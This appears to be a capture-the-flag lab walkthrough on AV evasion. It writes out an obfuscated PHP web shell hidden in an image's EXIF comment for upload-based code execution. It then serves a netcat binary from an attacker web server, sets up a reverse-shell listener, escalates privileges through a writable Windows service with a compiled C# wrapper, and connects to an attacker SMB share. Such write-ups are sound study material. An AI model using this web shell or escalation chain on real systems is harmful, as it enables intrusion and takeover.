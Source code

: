 ```markdown
6. Which extensions are accepted? - jpg,jpeg,png,gif
```

## AV Evasion

```shell
mv ~/image.jpeg shell-sv.jpeg.php

exiftool -Comment="<?php \$a0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$a0)){echo base64_decode('PHByZT4=').shell_exec(\$a0).base64_decode('PC9wcmU+');}die();?>" shell-sv.jpeg.php
#insert obfuscated PHP payload as comment

#upload the payload
#we have rce now

#get pre-compiled netcat binary for x64 system

sudo python3 -m http.server 80
#start web server

#execute certutil command on webshell to transfer binary to victim

#setup listener
sudo nc -nvlp 443
#execute nc reverse-shell one-liner
#we get reverse shell

whoami
#thomas

whoami /priv
#SeImpersonatePrivilege enabled

whoami /groups

wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"
#shows non-default services

sc qc SystemExplorerHelpService
#this shows vulnerable service running as LocalSystem

powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list"
#check permissions for directory of vulnerable service
#we have full control of directory

#in attacker machine
#install mono for exploit dev
sudo apt install mono-devel

vim Wrapper.cs
#create exploit

mcs Wrapper.cs
#compiles exploit, creates .exe

file Wrapper.exe
#exploit

sudo smbserver.py share . -smb2support -username user -password Password123
#start smb server with auth

#in reverse-shell as thomas
net use \\10.50.82.104\share /USER:user Password123
```